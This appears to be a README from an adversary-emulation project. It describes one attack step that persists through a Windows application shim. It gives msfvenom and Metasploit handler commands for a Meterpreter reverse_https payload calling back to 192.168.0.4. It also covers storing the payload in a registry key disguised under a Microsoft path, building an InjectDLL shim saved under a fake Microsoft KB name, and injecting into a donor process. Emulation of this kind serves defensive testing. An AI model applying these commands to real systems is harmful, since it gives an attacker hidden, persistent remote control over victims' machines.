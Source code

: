 # Step 19 File Descriptions, Role in Emulation, and Execution Flow

### bin329.tmp

`bin329.tmp` is a 32bit [sRDI converted meterpreter dll](https://github.com/monoxgas/sRDI).
  -  `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https LHOST=192.168.0.4 LPORT=53 -f dll -o payload.dll`
  - `git clone https://github.com/monoxgas/sRDI`
  - `python3 sRDI/Python/ConvertToShellcode.py payload.dll`
  - `mv payload.bin bin329.tmp`

  From `sudo msfconsole`
   - `handler -p windows/meterpreter/reverse_https -H 192.168.0.4 -P 53`


This payload will be stored in the registry at `HKLM\SOFTWARE\Microsoft\DRM\4` as a binary value by [prep_and_install_shim.ps1](prep_and_install_shim.ps1)


### prep_and_install_shim.ps1

Launch from an interactive administrator PowerShell, [prep_and_install_shim.ps1](prep_and_install_shim.ps1) stores bin329.tmp into the registry, copies over files to `C:\Windows\Temp`, and installs the applicatin shim via `sdbinst.exe`. 

### dll329.dll

`dll329.dll` is a custom statically compiled dll that is injected into the `AccountingIQ.exe` application via the InjectDLL application shim when the application is launched. Its purpose is to spawn a donor process(SyncHost.exe), inject into it, read the payload registry key, and execute the payload.

[Code for this dll can be found in injectDLL-Shim](./InjectDLL-Shim)

Simply click the `.sln` file to open with Visual Studio Code 2019. Then compile.

### sdbE376.tmp

`sdbE376.tmp` is the application shim database file. It contains the information on which to process to appy what shim to with which parameters. For this technique we are targeting `AccountingIQ.exe` with an `InjectDLL` shim with a parameter of `C:\Windows\Temp\dll329.tmp`.

#### Generating an sdb file from scratch

Download the [Windows Assessment and Deployment Kit for Windows 10](https://support.microsoft.com/en-us/help/4027209/oems-adk-download-for-windows-10). You only need to select the `Application Compatibility Toolkit` during installation. 

From an Administrator PowerShell/CMD shell 
 - `cd "C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Application Compatibility Toolkit\Compatibility Administrator (32-bit)"`
 - `.\Compatadmin.exe /x`
   - `/x` is an undocumented argument that will enable more shims

- Click `Fix` to begin
  - `AccountingIQ` for name of program
  - `Microsoft` for name of vendor 
  - Browse to program you would like to shim (AccountingIQ.exe)

- Click `Next` to skip the Compatability Mode section

- Select the `InjectDLL` shim by checking the box to its left
  - Click `Parameters`
  - Under `Command line` put the path to the DLL to inject - `C:\Windows\Temp\dll329.dll`
  - `OK`
  - `Next`

- Unselect all check boxes so that the shim will fire on any application that shares the name `AccountingIQ.exe`

- `Finish`

- Save Database as `Microsoft KB2832077` - Following CTI

- Save the SDB file to `C:\Windows\Temp\sdbE376.sdb` - `sdbE376.tmp`

- Open PowerShell
  - `mv C:\Windows\Temp\sdbE376.sdb C:\Windows\Temp\sdbE376.tmp`
  - `sdbinst.exe  C:\Windows\Temp\sdbE376.tmp`

The shim is now installed

## Execution Flow

1) Encoded PowerShell 
    - Drops `sdbE376.tmp` and `dll329.dll` to `C:\Windows\Temp`
    - Sets Reg key with binary data of meterpreter payload to `HKLM:\Software\Microsoft\DRM\4`
    - Invokes `sdbinst.exe` on `sdbE376.tmp` - Installs shim

2) Box is rebooted

3) Login over RDP onto system

4) Shim fires on launch of `AccountingIQ.exe` at login
    - `dll329.dll` is injected into `AccountingIQ.exe` via InjectDLL shim
    - `dll329.dll` spawns `C:\Windows\SysWOW64\SyncHost.exe` as a donor process
    - `dll329.dll` injects and maps a function into `SyncHost.exe`
    - Function runing in `SyncHost.exe` now reads payload from `HKLM:\Software\Microsoft\DRM\4` and executes it

5) User level meterpreter session is spawned


### Process Tree of Execution

![Process Tree of Execution](ProcessExplorer_ProcessTree.png)

## Uninstallation

Removing the shim can be done in two ways:

1) `sdbinst.exe -u sdbE376.tmp`

2) Open `Control Panel\Programs\Programs and Features` and look for the `Microsoft KB2832077` database name and uninstall it.
